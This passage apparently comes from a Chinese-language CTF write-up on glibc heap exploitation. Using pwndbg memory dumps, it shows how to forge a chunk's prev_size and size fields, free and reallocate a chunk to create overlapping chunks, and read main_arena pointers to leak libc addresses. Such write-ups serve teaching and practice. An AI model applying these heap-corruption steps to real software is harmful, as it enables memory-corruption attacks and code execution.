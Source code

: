 所以啊过不了检测

我们还要对chunk2做手脚

```C
pwndbg> x/128gx 0x55e6c276f000
0x55e6c276f000:	0x0000000000000000	0x0000000000000021
0x55e6c276f010:	0x6161616161616161	0x6161616161616161
0x55e6c276f020:	0x0000000000000020	0x00000000000000a1
0x55e6c276f030:	0x0000000000000000	0x0000000000000000
0x55e6c276f040:	0x0000000000000000	0x00000000000000a1

```

我们不难发现chunk2起始地在0x40

但是内容是在0x55e6c276f050开始写入

我们要满足0x55e6c276f020开始的chunk1大小为0xa0

可得我们要在0x55e6c276f0c0的地方的修改chunk2的prve_size为0xa0

自己的chunk size为0x21

如下代码

```C
pwndbg> x/32gx 0x558e09943000
0x558e09943000:	0x0000000000000000	0x0000000000000021
0x558e09943010:	0x6161616161616161	0x6161616161616161
0x558e09943020:	0x0000000000000020	0x00000000000000a1
0x558e09943030:	0x0000000000000000	0x0000000000000000
0x558e09943040:	0x0000000000000000	0x00000000000000a1
0x558e09943050:	0x0000000000000000	0x0000000000000000
0x558e09943060:	0x0000000000000000	0x0000000000000000
0x558e09943070:	0x0000000000000000	0x0000000000000000
0x558e09943080:	0x0000000000000000	0x0000000000000000
0x558e09943090:	0x0000000000000000	0x0000000000000000
0x558e099430a0:	0x0000000000000000	0x0000000000000000
0x558e099430b0:	0x0000000000000000	0x0000000000000000
0x558e099430c0:	0x00000000000000a0	0x0000000000000021
0x558e099430d0:	0x0000000000000000	0x0000000000000000

```

下面我们构造堆重叠

我们都知道bin的管理模式是当要创建新的chunk优先从空闲空间拿

不够再和top chunk 拿

我们dele1再把它用同等大小申请回来就会造成和chunk2有重叠

我们先看看dele1的情况

很明显他的fd bk指针指向main_arean+88

我们可以顺便看看他 的内存情况

是不是和我们上面说的一样
